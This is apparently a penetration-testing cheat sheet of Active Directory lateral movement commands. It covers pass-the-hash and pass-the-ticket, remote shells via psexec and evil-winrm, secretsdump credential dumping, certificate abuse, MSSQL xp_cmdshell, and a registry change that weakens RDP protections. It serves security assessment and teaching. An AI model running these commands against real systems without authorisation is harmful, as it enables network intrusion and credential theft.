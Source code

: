 ```yaml
---
title: "Lateral Movement"
description: "Lateral Movement techniques and commands for Active Directory security assessment."
---
```

# Lateral Move

## Clear text Password >>> Admin
- Interactive-shell - psexec >>> Authority/System
  - `psexec.py <domain>/<user>:<password>@<ip>`
  - `psexec.exe -AcceptEULA \\<ip>`
  - `psexecsvc.py <domain>/<user>:<password>@<ip>`
- Pseudo-shell (file write and read)
  - `atexec.py  <domain>/<user>:<password>@<ip> "command"`
  - `smbexec.py  <domain>/<user>:<password>@<ip>`
  - `wmiexec.py  <domain>/<user>:<password>@<ip>`
  - `dcomexec.py  <domain>/<user>:<password>@<ip>`
  - `nxc smb <ip_range> -u <user> -p <password> -d <domain> -x <cmd>`
- WinRM >>> Low access || Admin
  - `evil-winrm -i <ip> -u <user> -p <password>`
  - `Enter-PSSession -ComputerName <computer> -Credential <domain>\<user>`
  - `nxc winrm <ip_range> -u <user> -p <password> -d <domain> -x <cmd>`
- RDP >>> Low access || Admin
  - `xfreerdp /u:<user> /d:<domain> /p:<password> /v:<ip>`
- SMB >>> Search files
  - `smbclient.py <domain>/<user>:<password>@<ip>`
  - `smbclient-ng.py -d <domain> -u <user> -p <password> --host <ip>`
- MSSQL >>> MSSQL
  - `nxc mssql <ip_range> -u <user> -p <password>`
  - `mssqlclient.py -windows-auth <domain>/<user>:<password>@<ip>`

## NT Hash
- Pass the Hash
  - MSSQL/PseudoShell PsExec/SMB...  >>> Admin
    - `impacket : same as with creds, but use -hashes ':<hash>'`
    - `nxc : same as with creds, but use -H ':<hash>'`
  - `mimikatz "privilege::debug sekurlsa::pth /user:<user> /domain:<domain> /ntlm:<hash>"` >>> Admin
  - RDP >>> Low access || Admin
    - `reg.py <domain>/<user>@<ip> -hashes ':<hash>' add -keyName 'HKLM\System\CurrentControlSet\Control\Lsa' -v 'DisableRestrictedAdmin' -vt 'REG_DWORD' -vd '0'`
      - `xfreerdp /u:<user> /d:<domain> /pth:<hash> /v:<ip>`
  - WinRM >>> Low access || Admin
    - `evil-winrm -i <ip> -u <user> -H <hash>`
- Overpass the Hash / Pass the key (PTK) >>> Admin
  - `Rubeus.exe asktgt /user:victim /rc4:<rc4value>`
    - `Rubeus.exe ptt /ticket:<ticket>`
    - `Rubeus.exe createnetonly /program:C:\Windows\System32\[cmd.exe||upnpcont.exe]`
  - `getTGT.py <domain>/<user> -hashes :<hashes>`

## Kerberos
- Pass the Ticket (ccache / kirbi)
  - Convert Format
    - `ticketConverter.py <kirbi||ccache> <ccache||kirbi>`
  - `export KRB5CCNAME=/root/impacket-examples/domain_ticket.ccache` >>> Admin
    - `impacket tools: Same as Pass the hash but use : -k and -no-pass for impacket`
  - `mimikatz kerberos::ptc "<ticket>"`
  - `Rubeus.exe ptt /ticket:<ticket>`
  - `proxychains secretsdump.py -k'<domain>'/'<user>'@'<ip>'`
  - Modify SPN >>> PassTheTicket
    - `tgssub.py -in <ticket.ccache> -out <newticket.ccache> -altservice "<service>/<target>" #pr 1256`

- Aeskey >>> Admin
  - `impacket tools: Same as Pass the hash but use : -aesKey for impacket (and use FQDN)`
  - `proxychains secretsdump.py -aesKey <key> '<domain>'/'<user>'@'<ip>'`

## Socks (relay)
- `proxychains lookupsid.py <domain>/<user>@<ip> -no-pass -domain-sids`
- `proxychains mssqlclient.py -windows-auth <domain>/<user>@<ip> -no-pass` >>> MSSQL
- `proxychains secretsdump.py -no-pass '<domain>'/'<user>'@'<ip>'` >>> DCSYNC
- `proxychains smbclient.py -no-pass <user>@<ip>` >>> Search files
- `proxychains atexec.py  -no-pass  <domain>/<user>@<ip> "command"` >>> Authority/System
- `proxychains smbexec.py  -no-pass  <domain>/<user>@<ip>` >>> Authority/System

## Certificate (pfx)
- unpac the hash
  - `certipy auth -pfx <crt_file> -dc-ip <dc_ip>`
  - `gettgtpkinit.py -cert-pfx <crt.pfx> -pfx-pass <crt_pass> "<domain>/<dc_name>" <tgt.ccache>`
    - `getnthash.py -key '<AS-REP encryption key>' '<domain>'/'<dc_name>'`
- Pass the certificate
  - pkinit
    - `gettgtpkinit.py -cert-pfx "<pfx_file>" ^[-pfx-pass  "<cert-password>"] "<fqdn_domain>/<user>" "<tgt_ccache_file>"`
    - `Rubeus.exe asktgt /user:"<username>" /certificate:"<pfx_file>" [/password:"<certificate_password>"] /domain:"<fqdn-domain>" /dc:"<dc>" /show`
    - `certipy auth -pfx <crt_file> -dc-ip <dc_ip>`
  - schannel
    - `certipy auth -pfx <pfx_file> -ldap-shell`
      - add_computer
        - Set RBCD >>> RBCD
    - `certipy cert -pfx "<pfx_file>" -nokey -out "user.crt"`
      - `certipy cert -pfx "<pfx_file>" -nocert -out "user.key"`
        - `passthecert.py -action ldap-shell -crt <user.crt> -key <user.key> -domain <domain> -dc-ip <dc_ip>`

## MSSQL
- find mssql access
  - `nxc mssql <ip> -u <user> -p <password> -d <domain>` >>> MSSQL
- Users or Computers with SQL admin
- `MATCH p=(u:Base)-[:SQLAdmin]->(c:Computer) RETURN p` >>> MSSQL
- `mssqlclient.py -windows-auth <domain>/<user>:<password>@<ip>`
  - `enum_db`
  - `enable_xp_cmdshell`
    - `xp_cmdshell <cmd>` >>> Low Access
  - `enum_impersonate`
    - `exec_as_user <user>` >>> MSSQL
    - `exec_as_login <login>` >>> MSSQL
  - `xp_dir_tree <ip>` >>> COERCE SMB
  - `trustlink` 
    - `sp_linkedservers`
      - `use_link` >>> MSSQL || Trust